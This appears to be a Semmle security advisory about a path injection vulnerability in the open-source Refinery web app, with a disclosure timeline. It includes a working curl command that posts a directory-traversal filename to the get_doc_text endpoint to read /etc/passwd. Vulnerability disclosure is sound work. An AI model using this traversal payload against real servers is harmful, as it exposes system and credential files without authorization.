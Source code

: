 # Path injection in Refinery

One of LGTM's default queries found a path injection vulnerability in the open source [Refinery](https://github.com/daeilkim/refinery) project:

https://lgtm.com/projects/g/daeilkim/refinery/snapshot/5eb10ae26cc67ac3d39d37e932274798631e15b2/files/refinery/refinery/webapp/topicmodel.py#xaea6e729c50ca7a5:1

This bug is trivial to exploit. If Refinery is running on the website example.com, then an attacker can read arbitrary files on the server like this:

curl -d "filename=../../../../../../../../../../../../etc/passwd" -X POST http://example.com/doc/get_doc_text

Semmle reported this vulnerability to the maintainers of Refinery on 2018-12-16 (using the email addresses listed [here](https://github.com/daeilkim/refinery/blob/0d5de8fc3d680a2c79bd0e9384b506229787c74f/README.md)), but they did not respond. Kevin Backhouse also attempted to contact Daeil Kim using [LinkedIn](https://www.linkedin.com/in/daeil/), but did not receive a response.
